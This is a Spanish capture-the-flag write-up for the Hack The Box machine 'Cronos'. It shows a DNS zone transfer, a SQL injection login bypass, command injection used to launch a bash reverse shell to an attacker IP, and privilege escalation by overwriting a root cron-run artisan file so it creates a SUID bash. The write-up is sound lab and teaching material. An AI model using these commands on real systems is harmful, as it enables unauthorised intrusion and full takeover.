# Cronos

**Plataforma:** Hack The Box  
**Dificultad:** Medium  
**Sistema operativo:** Linux  
**Autor:** Alex09060

## Resumen

En Cronos, el primer paso fue mirar los servicios que tenía expuestos la máquina. Además de SSH y HTTP, encontramos DNS, y eso terminó siendo la clave para descubrir un subdominio que no aparecía navegando por la web principal.

Desde el panel de administración conseguimos saltarnos el login mediante una SQL injection. Una vez dentro, la herramienta de diagnóstico resultó vulnerable a command injection, lo que nos permitió obtener una shell como `www-data`.

Para terminar, encontramos una tarea programada que ejecutaba Laravel como root. Como el archivo `artisan` pertenecía a `www-data`, pudimos modificarlo para que copiase Bash a `/tmp` y le asignase el bit SUID. Así conseguimos una shell con privilegios de root.

## Enumeración

Empezamos con un escaneo completo de puertos para ver qué servicios estaban disponibles.

```bash
sudo nmap -p- -sS --min-rate 3000 10.129.227.211 -oG ports
```

Encontramos tres puertos abiertos: **22 (SSH), 53 (DNS) y 80 (HTTP)**.



Después lanzamos un escaneo de versiones y scripts por defecto para identificar mejor los servicios.

```bash
nmap -p22,53,80 -sCV 10.129.227.211 -oN versions
```

El resultado muestra OpenSSH en el puerto 22, DNS con BIND en el 53 y Apache en el 80.



### Enumeración DNS

Como la web principal no parecía ofrecer nada especialmente interesante, decidimos revisar el servicio DNS. Primero consultamos el registro asociado al dominio de la máquina:

```bash
dig -x 10.129.227.211 @10.129.227.211
```

La consulta nos devuelve el nombre `ns1.cronos.htb`, así que añadimos `cronos.htb` al fichero `/etc/hosts`.



```bash
sudo nano /etc/hosts
```

Al volver a visitar la web mediante el dominio, encontramos la página principal de Cronos. No hay mucho que podamos aprovechar a simple vista, pero sabemos que la máquina utiliza Laravel.



Volvemos al DNS y probamos una transferencia de zona (AXFR), que puede revelar todos los registros de una zona si el servidor está mal configurado.

```bash
dig axfr @10.129.227.211 cronos.htb
```

La transferencia funciona y nos devuelve varios registros. Entre ellos aparece `admin.cronos.htb`, que añadimos también a `/etc/hosts`.



Al acceder a `admin.cronos.htb` encontramos un panel de inicio de sesión.



## Acceso inicial

### Bypass del login mediante SQL injection

Probamos a introducir una condición SQL en el campo de usuario:

```sql
test' or 1 = 1 -- -
```

La aplicación no valida correctamente la entrada y conseguimos saltarnos el inicio de sesión. Esto nos lleva a `welcome.php`, donde encontramos una herramienta para ejecutar `ping` y `traceroute`.



### Command injection

La herramienta recibe parámetros que terminan ejecutándose en el sistema. Probamos a añadir `;id` al comando y la aplicación devuelve el resultado, confirmando que podemos inyectar comandos.



Con la ejecución de comandos confirmada, preparamos una reverse shell. Primero dejamos un listener abierto en nuestra máquina atacante:

```bash
nc -lvnp 443
```

Después introducimos este comando desde la herramienta web, cambiando la IP por la de nuestra máquina de ataque:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.111/443 0>&1'
```

Recibimos la conexión y conseguimos acceso al sistema como `www-data`.



## Escalada de privilegios

Una vez dentro, empezamos a revisar los procesos y tareas programadas. Encontramos una entrada que ejecuta el planificador de Laravel cada minuto como root:

```bash
php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```



Comprobamos los permisos del archivo `/var/www/laravel/artisan` y vemos que `www-data` es su propietario. Por tanto, podemos modificarlo.

La idea es aprovechar que el cron lo ejecuta como root: sustituimos el contenido del archivo por una instrucción PHP que copia `/bin/bash` a `/tmp/rootbash` y le asigna el bit SUID.

```bash
echo '<?php system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"); ?>' > /var/www/laravel/artisan
```

Esperamos a que se ejecute la tarea programada y comprobamos que el binario se ha creado con los permisos esperados. Después lo ejecutamos con `-p` para conservar los privilegios efectivos:

```bash
/tmp/rootbash -p
```

La comprobación con `whoami` devuelve `root`, por lo que ya tenemos control completo de la máquina.



## Lo que me llevo de esta máquina

- **Enumeración DNS:** una transferencia de zona mal configurada puede revelar subdominios y otros registros internos.
- **SQL injection:** una entrada sin validar permitió saltarnos el formulario de autenticación.
- **Command injection:** la herramienta de diagnóstico ejecutaba directamente comandos del sistema y permitió obtener una reverse shell.
- **Tareas programadas y permisos:** revisar los cron jobs y los propietarios de los archivos puede revelar rutas de escalada de privilegios.
- **SUID:** modificar un archivo que ejecuta root para crear una copia SUID de Bash permitió conseguir una shell privilegiada.

